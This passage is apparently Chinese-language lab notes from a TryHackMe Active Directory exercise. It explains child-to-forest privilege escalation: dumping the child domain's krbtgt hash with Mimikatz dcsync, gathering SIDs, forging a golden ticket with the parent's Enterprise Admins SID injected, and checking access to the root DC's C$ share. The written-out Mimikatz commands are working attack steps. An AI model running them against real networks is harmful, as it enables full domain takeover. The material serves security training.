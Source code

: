 - **示例：子域到林的提权 (Example: Child-to-Forest Escalation)**：
    
    - **信息收集 (Information Gathering)**:
        1. **获取子域 `krbtgt` 哈希**: 在已控的子域 DC 上，使用 Mimikatz 的 `lsadump::dcsync` 功能 dump 出子域 `krbtgt` 账户的 NTLM 哈希。
        2. **获取子域 SID**: 使用 `Get-ADDomain` 获取当前子域的 SID。
        3. **获取父域 `Enterprise Admins` SID**: 使用 `Get-ADGroup` 并指定父域 DC (`-Server thmrootdc.tryhackme.loc`)，获取 `Enterprise Admins` 组的 SID。
    - **伪造黄金票据 (Forging the Golden Ticket)**: 使用 Mimikatz 的 `kerberos::golden` 命令生成并注入黄金票据。
        
        PowerShell
        
        ```
        # 在 Mimikatz 中
        kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<child_domain_sid> /krbtgt:<child_domain_krbtgt_hash> /sids:<parent_domain_enterprise_admins_sid> /ptt
        ```
        
        - `/domain` 和 `/sid` 使用子域的信息。
        - `/krbtgt` 使用子域 `krbtgt` 的哈希。
        - `/sids` 注入父域 `Enterprise Admins` 的 SID。
        - `/ptt` 直接将票据注入内存。
    - **验证访问 (Verifying Access)**: 票据注入后，尝试访问父域 DC 的 C$ 盘。
        
        Bash
        
        ```
        dir \\thmrootdc.tryhackme.loc\c$
        ```
        
        如果命令成功，则证明攻击者已利用域信任关系，从子域管理员成功提升为整个林的管理员。